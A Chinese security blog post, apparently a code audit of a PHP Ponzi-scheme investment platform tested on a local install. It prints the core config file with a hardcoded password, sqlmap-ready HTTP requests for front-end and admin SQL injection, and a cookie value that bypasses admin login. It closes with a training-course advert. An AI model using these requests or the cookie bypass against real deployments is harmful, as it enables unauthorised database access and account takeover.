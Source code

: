 #  代码审计某资金盘理财系统  
 实战安全研究   2025-06-15 02:00  
  
```
免责声明：本公众号所提供的文字和信息仅供学习和研究使用，不得用于任何非法用途。
我们强烈谴责任何非法活动，并严格遵守法律法规。
读者应该自觉遵守法律法规，不得利用本公众号所提供的信息从事任何违法活动。
本公众号不对读者的任何违法行为承担任何责任。
```  
### 1.介绍  
  
这套系统属于资金盘，  
资金盘，顾名思义，是将不动的资金变为流动的资金，将个人手中闲散的资金利用起来，用于保值、增值。 但随着融资形式的发展，经过一部分人的加工和修饰，就异化为这样一种现象：它向社会不特定的对象吸收资金，根据行业内游戏规则，承诺高额返利。 表面看上去是资本运作，实质却是庞氏骗局。  
### 2.搭建  
  
环境 php5.6 mysql8 中间件 apache  
  
使用phpstudy搭建 创建网站后 使用navformysql将数据库mf.sql导入到指定的数据库   
  
修改  include/dbConfig.php  
  数据库信息  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ABAibBfLFiaWJj3GaxBQsRTcds2h7MEsLeRXXuFejqTYqG4ibjKPu4B2KgaC26dn80AUk2BYa5OeFfcg/640?wx_fmt=jpeg&from=appmsg "")  
  
直接访问即可。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ABAibBfLFiaWJj3GaxBQsRTcdWQxEd06BD5s9SXbEiaDEdicsfMgGKzzkv0xcMjBNRmsofgUdPOKoVq5g/640?wx_fmt=jpeg&from=appmsg "")  
### 4.核心文件分析  
  
文件 include/conn.php  这个是网站的核心配置文件   
```
<?php# 文件名称:conn.php 2009-11-1 16:03:03# 网站相关的设置及配置信息header("Content-type: text/html;charset=utf-8");error_reporting(E_ERROR | E_PARSE);	//开发时注释掉，正式运营时，开启//@ini_set("display_errors", "Off");@set_time_limit(0);//版本相关设置，防不同版本而出错PHP_VERSION >= '5.1' && date_default_timezone_set('Asia/Shanghai');session_cache_limiter('private, must-revalidate'); @ini_set('session.auto_start',0); if(PHP_VERSION < '4.1.0') {	$_GET         = &$HTTP_GET_VARS;	$_POST        = &$HTTP_POST_VARS;	$_COOKIE      = &$HTTP_COOKIE_VARS;	$_SERVER      = &$HTTP_SERVER_VARS;	$_ENV         = &$HTTP_ENV_VARS;	$_FILES       = &$HTTP_POST_FILES;}//系统通用函数库 及 防注入等非法操作//MAGIC_QUOTES_GPC = off = 0，需要手工转义define('ROOTPATH', substr(dirname(__FILE__), 0, -7));define('MAGIC_QUOTES_GPC', get_magic_quotes_gpc());  //isset($_REQUEST['GLOBALS']) && exit('Access Error');require_once 'function.php';foreach(array('_COOKIE', '_POST', '_GET') as $_request) {	foreach($$_request as $_key => $_value) {		$_key{0} != '_' && $$_key = daddslashes($_value);	}}(!MAGIC_QUOTES_GPC) && $_FILES = daddslashes($_FILES);$REQUEST_URI  = $_SERVER['PHP_SELF'].'?'.$_SERVER['QUERY_STRING'];//页面压缩function_exists('ob_gzhandler') ? ob_start('ob_gzhandler') :ob_start();//用户IPif($_SERVER['HTTP_X_FORWARDED_FOR']){	$m_user_ip = $_SERVER['HTTP_X_FORWARDED_FOR'];} elseif($_SERVER['HTTP_CLIENT_IP']){	$m_user_ip = $_SERVER['HTTP_CLIENT_IP'];} else{	$m_user_ip = $_SERVER['REMOTE_ADDR'];}$m_user_ip  = preg_match('/^([0-9]{1,3}\.){3}[0-9]{1,3}$/',$m_user_ip) ? $m_user_ip : 'Unknown';//建立数据库连接$db_settings = parse_ini_file('dbConfig.php');@extract($db_settings);require_once 'mysql.php';$db = new dbmysql();$db->dbconn($con_db_host,$con_db_id,$con_db_pass,$con_db_name);$ckeditor_mc_id = '';$ckeditor_mc_val = '';$ckeditor_mc_lang = "zh-cn";$ckeditor_mc_toolbar = "Default";$ckeditor_mc_height = "400";//操作密码define('CC_ACT_PWD', '123asd..');
```  
  
这里的代码是重点  get_magic_quotes_gpc() 在php5.6 默认是0   
```
define('MAGIC_QUOTES_GPC', get_magic_quotes_gpc()); //这个值是0 foreach(array('_COOKIE', '_POST', '_GET') as $_request) { //对传入的cookie、post 、get参数 存在特殊字符串进行过滤 例如' 变成'\	foreach($$_request as $_key => $_value) {		$_key{0} != '_' && $$_key = daddslashes($_value);	}}(!MAGIC_QUOTES_GPC) && $_FILES = daddslashes($_FILES); //文件上传 后缀名也会被过滤
```  
  
在登录的时候传入用户和密码  发现单引号被过滤  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ABAibBfLFiaWJj3GaxBQsRTcdeqW5dsyMo2SdlpoVOuoEkOjjUqL0uNAXcVib5I31LlA5I0iaqNk7R7wg/640?wx_fmt=jpeg&from=appmsg "")  
### 5.前台SQL注入漏洞  
  
漏洞文件位置 /member/post.php  
$ddh参数使用$_GET获取 并不会被过滤。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ABAibBfLFiaWJj3GaxBQsRTcdHyc4RjQHrq0icUSTwMvwh9nXPIc6Ykmwkt37VtuzAHuYNXianRsHBRoA/640?wx_fmt=jpeg&from=appmsg "")  
  
例子  
```
<?phpinclude 'include/conn.php';echo $username;echo "<hr>";echo $_GET['username'];
```  
  
如图  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ABAibBfLFiaWJj3GaxBQsRTcd5z7tDwBEbfagWkL5Mu9DJye9jJH9p7T3mkoPfMNPEUyq5awRej03Ow/640?wx_fmt=jpeg&from=appmsg "")  
  
使用sqlmap进行测试  
```
GET /member/post.php?ddh=1'&money=2&key=2052cd88bea3f9016a0057436dbbd750 HTTP/1.1Host: www.licai1.comAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Referer: http://www.licai1.com/member/index.phpAccept-Encoding: gzip, deflateCookie: m_username=15888888888; m_password=e99a18c428cb38d5f260853678922e03; m_level=4; m_isPass=1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36Accept-Language: zh-CN,zh;q=0.9Upgrade-Insecure-Requests: 1
```  
  
注入成功  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ABAibBfLFiaWJj3GaxBQsRTcdia3q9QwwiawW9iaCeuPvBibnwqbycUawfk6DV7Og5dkZ9cGEWz4LuBoUug/640?wx_fmt=jpeg&from=appmsg "")  
### 6.后台SQL注入漏洞  
  
漏洞文件位置 D:\phpstudy_pro\WWW\www.licai1.com\admin\admin.php  
  
id并没有使用单引号 存在SQL注入  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ABAibBfLFiaWJj3GaxBQsRTcdntTJh1jtjBGzibBhwEvs4OAtUwYbDxT0OicLjgIBWP2WlkUjSSxBhciag/640?wx_fmt=jpeg&from=appmsg "")  
  
登录后台抓包 使用sqlmap.py -r sql4.txt 进行测试  
```
GET /admin/admin.php?clause=editinfo&id=5 HTTP/1.1Host: www.licai1.comUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Language: zh-CN,zh;q=0.9Cookie: PHPSESSID=964l42aof1mlb17jum3k2501m0; h_userName=admin; h_passWord=21232f297a57a5a743894a0e4a801fc3Cache-Control: max-age=0Upgrade-Insecure-Requests: 1Accept-Encoding: gzip, deflate
```  
  
注入成功  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ABAibBfLFiaWJj3GaxBQsRTcdFcvDbgNvw2acRAhwOYBrfDaHUF4g2WUYAHqibgZuHqspDys6arrQIMg/640?wx_fmt=jpeg&from=appmsg "")  
### 7.后台验证绕过  
  
漏洞文件位置 admin/chkLogged.php  
  
从cookie获取账号和密码 判断 不为空之后 传入存在的账号进行查询。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ABAibBfLFiaWJj3GaxBQsRTcdqV83U7jP5EteN90ZsDo37cmQEoWJRc32GUmHGGmonNaWmnOd5JWGicg/640?wx_fmt=jpeg&from=appmsg "")  
  
访问后台填写cookie即可绕过  
```
Cookie: h_userName=admin; h_passWord=1111
```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ABAibBfLFiaWJj3GaxBQsRTcdHOjuRneGXqCUo6RQia8YxVnL7RzzTBMxiaMiaYJZalVxX6Um0seILyd3A/640?wx_fmt=jpeg&from=appmsg "")  
  
  
8.培训学习  
  
  
🚀 如果你想系统掌握网络安全实战技能，从入门到进阶完成一次能力跃迁，我们提供了高质量的培训课程，内容涵盖 Web 安全、内网渗透、红队对抗、代码审计等方向。  
  
📚 课程由实战经验丰富的讲师教学，适合零基础或有一定基础的学员。  
  
📩 有兴趣了解课程详情，扫一扫 添加月师傅微信  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ABAibBfLFiaWJj3GaxBQsRTcdfbicjic0toZ3E77AjB04TbQauCN7OnHwDAW44jPo17jcUIegZicYhqCXQ/640?wx_fmt=jpeg&from=appmsg "")  
  
  
  
  
